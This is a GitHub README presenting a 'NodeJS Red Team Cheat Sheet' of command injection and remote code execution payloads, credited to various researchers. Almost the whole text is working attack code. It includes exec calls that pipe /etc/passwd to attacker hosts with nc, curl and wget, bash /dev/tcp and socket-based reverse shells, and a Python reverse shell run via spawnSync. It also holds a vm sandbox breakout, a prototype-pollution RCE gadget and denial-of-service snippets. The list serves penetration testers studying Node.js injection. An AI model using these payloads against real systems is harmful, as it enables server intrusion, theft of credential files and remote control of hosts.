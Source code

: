 # NodeJS Red Team Cheat Sheet

A curated list of NodeJs Command Injection / RCE Payloads.

### Know the evil functions
`eval()`,`setTimeout()`,`setInterval()`, `Function()`, `unserialize()`

### Know your weapons
`fs` , `child_process`, `net`, `http`

`spawn` = returns a stream, returns huge binary data to Node

`exec` = returns a buffer, should be used to return status

### Attack Vectors

Denial of Service
```javascript
while(1)
```
Exit the running process
```javascript
process.exit()
```

Kill Process
```javascript
process.kill(process.pid)
```

Read current working directory
```javascript
res.end(require('fs').readdirSync('.').toString())
```

Read previous directory
```javascript
res.end(require('fs').readdirSync('..').toString())
```

Read file
```javascript
res.end(require('fs').readFileSync(fname))
```
Spawn Magic ( by [@aaditya_purani](https://twitter.com/aaditya_purani))
```javascript
require('child_process').spawn('ls',['-a']).stdout.on('data', function (data) {console.log('own'+ data); });
```
Child exec ( by [@artsploit](https://twitter.com/artsploit) )
```javascript
require('child_process').exec('cat+/etc/passwd+|+nc+attackerip+80')
```

```javascript
require('child_process').exec('bash+-c+"bash+-i+>%26+/dev/tcp/nc_host/nc_port+0>%261"')
```

```javascript
require('child_process').exec('curl+-F+"x=`cat+/etc/passwd`"+attackersip.com')
```
Wget post data (by [@brutelogic](https://twitter.com/brutelogic))
```javascript
require('child_process').exec('wget+--post-data+"x=$(cat+/etc/passwd)"+HOST')
```

Using net (by [ibreak.software](http://ibreak.software))
```javascript
var+net+=+require("net"),+sh+=+require("child_process").exec("/bin/bash");var+client+=+new+net.Socket();client.connect(80,+"attackerip",+function(){client.pipe(sh.stdin);sh.stdout.pipe(client);sh.stderr.pipe(client);});
```

Using arguments[1] as response object (by [@OrhanAlbay](https://twitter.com/OrhanAlbay))
```javascript
arguments[1].end(require('child_process').execSync('whoami'))
```
```javascript
arguments[1].end(require('child_process').execSync('cat /etc/passwd'))
```

Bypass stream limits by compressing to gzip (by [@aaditya_purani](https://twitter.com/aaditya_purani))
```javascript
const pwn=require('zlib').createGzip();const inx=require('fs').createReadStream('app.json');const oux = require('fs').createWriteStream('unrestrictive.gz');inx.pipe(pwn).pipe(oux)
```

Sandbox Bypass spawnSync (by [netspi](https://t.co/3D9kWREcUz))
```javascript
var resp = spawnSync('python',
['-c',
'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("127.0.0.1",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
]
);
print(resp.stdout);
print(resp.stderr);
```

vm module breakout (by [pwnisher](https://pwnisher.gitlab.io/nodejs/sandbox/2019/02/21/sandboxing-nodejs-is-hard.html))

```javascript
"use strict";
const vm = require("vm");
const xyz = vm.runInNewContext(`const process = this.constructor.constructor('return this.process')();
process.mainModule.require('child_process').execSync('cat /etc/passwd').toString()`);
console.log(xyz);
```

Alternative RCE payload (by [mahmoud](https://mahmoudsec.blogspot.com/2019/04/handlebars-template-injection-and-rce.html))

```javascript
x = ''
myToString = x.toString.bind("console.log(process.env)")
myToStringArr = Array(myToString)
myToStringDescriptor = Object.getOwnPropertyDescriptor(myToStringArr, 0)
Object.defineProperty(Object.prototype, "toString", myToStringDescriptor)
Object.constructor("test", this)()
```

### Need More ?
Repository would be maintained time to time. Feel free to contribute.

### Contact
[@aaditya_purani](https://twitter.com/aaditya_purani)
